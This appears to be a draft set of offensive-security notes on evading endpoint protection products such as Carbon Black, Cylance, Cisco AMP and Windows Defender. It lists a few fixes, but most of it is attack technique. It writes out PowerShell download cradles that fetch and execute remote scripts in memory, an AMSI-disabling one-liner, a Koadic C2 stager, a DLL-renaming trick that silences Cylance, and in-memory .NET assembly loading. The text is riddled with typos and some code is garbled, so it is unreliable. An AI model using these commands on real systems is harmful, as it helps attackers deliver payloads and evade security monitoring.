 ```yaml
---
description: 'Still a draft, much taken from BHIS Sacred Cash Cow 2020'
---
```


# Evading Endpoint Security

The year things changed  
  
  
Alternate interpreters.  
- Typically Python and Ruby  
- Bypassed:  
 → CrowdStrike  
 → Carbon Black  
 → Other AV vendors  
  
How do they get there?  
- Already installed  
- Unregistere interpreterer  
 → Security tool bundle. Executables laying around for other applications.  
 → Found in installation folder  
- Microsoft Store  
- Software Center  
- Administrator Privileges  
  
How do I fix it?  
- Restrict alternate interpretere deployments  
- Check the filesyustem and contact vendor  
- Restrict access to microsoft store  
- Review applicaiton published via SCCM  
- Restrict granting of administrator privileges.  
  


#### Carbon Black Configuration Case study

  
- Healthcare industry Company  
- Running Carbon Black, Windows Defender, etc  
- Relatively Mature Environment  
- However... **Allowed:**  
 → PowerShell  
 → Downloading ps1 files  
  
Not allowed:  
- Execution of PS1 files downloaded from GitHub  
- Execution of custom PS12 files  
- Via:  
 → Command Line  
 → PowerShell's Import-Module  
 → Calling from within a bash script  
  
Bypassing PS1 Restricityons:  
- Copy and paste contents of a PS1 file onto command line  
- Powershells Invoke-Expression  
  
 _iex\(new-object system.net.webclient\).downloadString\("https://any.com/file.ps1"\)_  
  
Cisco AMP EDR - Easy bypass  
**Used Koadic for C2**  
use: stager/js/wmic  
  
![file:///tmp/ct\_tmp/1.png](file:///tmp/ct_tmp/1.png)  
  
  
  
CYLANCEPROTECT buypass  
  
-Elevated privileges to SSYSTEM  
- Cylance still blocking suspicious behaviour  
- Cylance blocked all of these:  
 → AndrewSpecial  
 → Meterpreter Kiwi code  
 → Process explorer  
 → ProcDump.exe  
- Unable to stop the cylance service or kill the process  
  
Solution:  
 Rename a Cylance DLL to stop behaviour detection/prevention  
 - written by dru1d  
![file:///tmp/ct\_tmp/2.png](file:///tmp/ct_tmp/2.png)  
Cylance process keep running while this is done  
- No alers sent to the security team  
- Detection easy to re-enable by restoring the original filename  
- ![file:///tmp/ct\_tmp/3.png](file:///tmp/ct_tmp/3.png)  
- Requires local admin/SYSTEM  
  
  
Windows Defender and Carbon Black Byupass  
  
-Step 1  
- Sart powershell empire listener and get stager code  
  
Step 2 - Run the launcher code in memeory using this powershell commmand.  
  
 IEX\(New-Object System.Net.WebClient\).DownloadString\('https://iiaif.com/launcher.txt'\)  
This only works with windows defender  
  
Step 3 - To get the script to ruin, use the follwouing command to bypass AMSI:  
 _$m = “System.Management.Automation.Ams”; \[Ref\].Assembly.GetType\("$m" + “iUtils”\).GetField\('amsiInitFai'+'led', ‘NonPublic,Static’\).SetValue \($null,$true\)_  
  
  


#### Windows Subsystem for Linux

  
Running elf files on windows will often work!  
Microsoft store lets you install Python3.8 WITHOUT ADMIN!  
Fully operational Python C2.  
  
  


#### PowerShell HGTTP Web Crade for Downloads

 \(Joff\)  
. Download a Powershell script  
Helps to base64 encode the script first then downlaod  
Download, decode the use “iex” to put in memory  
Nothing touches disk  
  
 _wc = New-OPbjeckt syustem.webclient  
 $p = wc.DownloadString\("http:8458844.pv.b64"\)  
 $sc = \[System.Text.Encoding\]::UTF8.GetString\(\[System.Convert\]::FromBase64String\($p\)\)  
 iex $sc_  
  
  
AMSI can be annoying  
If downgrade attack is now working, we need to bypass AMSI often.  
  
Strip comments off the powershelll script  
- Powerstrip.py  
Goes through all comments and removes them. And writes a strippped version to this.  
Joff Thyer: PowerStrip  
You rarely need to obfuscate it heavy  
![file:///tmp/ct\_tmp/4.png](file:///tmp/ct_tmp/4.png)  
  
Run a custom Assembly DLL  
  
You can run any .NET really. Download into a powershell cradle and invoke any method in that.  
  
Fetch from HTTP, Create Object, Profit:  
  
 _$p = $wc.DownloadString\("http.."\)  
 $a = \[System.Convert\]::FromBase64String\($p\)  
 \[System.Reflection.Assembly\]::Load\($a\)  
 z = New-Object ClassLibrary1.Class1  
 $z.Invoke\(\)_  
  
  
Class Library

